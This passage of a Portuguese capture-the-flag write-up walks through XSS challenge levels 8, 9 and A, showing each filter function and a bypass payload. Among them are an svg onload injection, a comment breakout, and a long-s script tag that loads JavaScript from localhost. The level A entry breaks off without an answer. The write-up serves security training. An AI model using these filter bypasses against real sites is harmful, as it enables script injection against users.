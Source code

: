 Resposta: `"><svg/a=#"onload='/*#*/prompt(1)'`

Primeiro segmento: `">` fecha o `title` e a tag `<p>`. Segundo segmento: inicia atributo `a=` e abre `onload='/*`. Terceiro segmento: fecha comentário `*/` e chama `prompt(1)`.



## level 8
```javascript
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```
Filtro: remove quebras de linha, `<`, `/`, `"`.

Resposta: ` prompt(1) -->`

Inserimos um espaço antes de prompt(1) e usamos --> para encerrar o comentário JS, liberando a chamada a console.log (ou prompt, se ajustado).


## level 9
```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}       
```

Filtro: Substitui `<X` por `<_X`. Converte todos os caracteres para MAIÚSCULAS.

Resposta: `<ſcript/src=http://localhost:8000/test.js></ſcript>`

Neste nível, podemos observar que a entrada do usuário é tratada por “_” e também é feita a conversão de minúsculas para maiúsculas. Para contornar isso, podemos criar um payload utilizando alguns caracteres UNICODE da internet e, além disso, precisamos criar um arquivo JavaScript contendo o texto `prompt(1)`. Com isso só colocar no site a resposta desse level que conseguimos passar de nível.

![image](https://github.com/user-attachments/assets/dc13ddf5-82c6-4c8a-87fe-e57a00362141)

## level A
```javascript
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```
